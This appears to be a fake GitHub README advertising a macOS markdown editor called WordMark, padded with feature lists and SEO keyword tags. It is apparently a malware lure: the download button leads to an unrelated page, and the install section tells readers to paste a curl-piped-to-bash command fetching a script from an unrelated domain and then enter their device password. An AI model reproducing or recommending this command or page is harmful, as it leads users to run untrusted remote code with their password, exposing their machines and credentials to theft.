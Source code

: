 <p align="center">
  <img src="https://i.ibb.co/XrvrSyQX/1630422849-492x0w.png" width="350" alt="WordMark macOS Banner" />
</p>

<h1 align="center">WordMark for macOS</h1>

<p align="center">
  ✍️ A minimalist markdown editor with real-time preview, syntax highlighting, and export tools — perfect for writers, bloggers, and developers.  
  <br><br>
  ✅ Built for Distraction-Free Writing  
  ✅ Apple Silicon & macOS Sonoma Supported  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/245" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20WORDMARK%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download WordMark for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/Vp9zSVJP/1630422858-1.jpg" alt="WordMark macOS Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is WordMark for macOS?

**WordMark** is a fast, lightweight markdown editor designed for writing-focused users. It offers live preview, syntax highlighting, multiple themes, and clean export to HTML and PDF formats — all in a distraction-free workspace.

Perfect for bloggers, developers writing documentation, and content creators who want to stay productive without the clutter.

---

## ✅ Why Choose WordMark?

- ⌨️ **Live Markdown Preview While Typing**  
- 🎨 **Themes for Light & Dark Environments**  
- 📄 **Export to HTML, PDF, and More**  
- 🧠 **Syntax Highlighting for Code Blocks**  
- ✍️ **Distraction-Free Focus Mode**  
- 🌍 **Supports Local & Cloud Storage**  
- 🍎 **Native Apple Silicon Support**  
- 💻 **Clean UI Built for macOS**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/jZxpPb82/1630422859-2.jpg" alt="WordMark Editor with Preview Panel" />
  <br><br>

</p>

---

## 🚀 Key Features

- Lightweight markdown writing  
- Multiple export formats  
- Table, image, and code support  
- Custom CSS themes  
- Word/character count tracking  
- Syntax highlight presets  
- Works offline — no login required  
- Auto-save & file history

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow WordMark manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Editor-Markdown+Live+Preview-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ WordMark – Write with Clarity

Thanks for using **WordMark for macOS**.  
Write, preview, and export — all in one place.

---

## 🧭 Usage Context

WordMark runs fully offline with no cloud dependency.  
Ideal for personal writing, blogging, note-taking, and documentation.  
All changes are saved locally and instantly — no background syncing.

---

## 🔍 Tags

```text
wordmark for mac download, markdown editor mac with live preview, wordmark native apple silicon support, distraction free writing app mac, best markdown editor macbook m1 m2, wordmark export to html pdf markdown, wordmark full version for sonoma ventura, markdown blog writing software macos, wordmark dark mode syntax highlight mac, real time markdown rendering mac, simple markdown writing utility macos, wordmark save local notes offline mode, macos markdown code block support, wordmark markdown preview export tools, lightweight editor for markdown mac
